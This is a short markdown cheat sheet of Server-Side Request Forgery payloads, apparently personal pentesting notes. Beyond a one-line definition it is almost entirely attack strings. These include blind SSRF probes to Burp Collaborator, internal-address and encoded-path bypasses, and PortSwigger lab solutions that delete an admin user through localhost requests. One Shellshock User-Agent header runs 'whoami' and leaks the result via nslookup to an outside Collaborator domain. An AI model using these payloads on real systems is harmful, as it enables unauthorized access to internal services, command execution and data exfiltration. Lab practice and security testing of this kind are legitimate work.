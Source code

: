 # Server-Side Request Forgery - SSRF
> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## SSRF Blind
Change every param to: http://subdomain.burpcollaborator.net

## SSRF Reflected
1) http://
2) http://$domain - http://subdomain.$domain
3) http://192.168
4) http://127

## PORTSWIGGER
1) search stockApi=http://localhost/admin/delete?username=carlos
2) http://192.168.§0§.§1§:8080/admin
3) http://127.0.0.1/ - http://127.1/ - http://127.1/admin - http://127.1/%2561dmin
4) http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
5) /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
6) User-Agent: () { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net + Referrer: http://192.168.§0§.§1§:8080,443,80
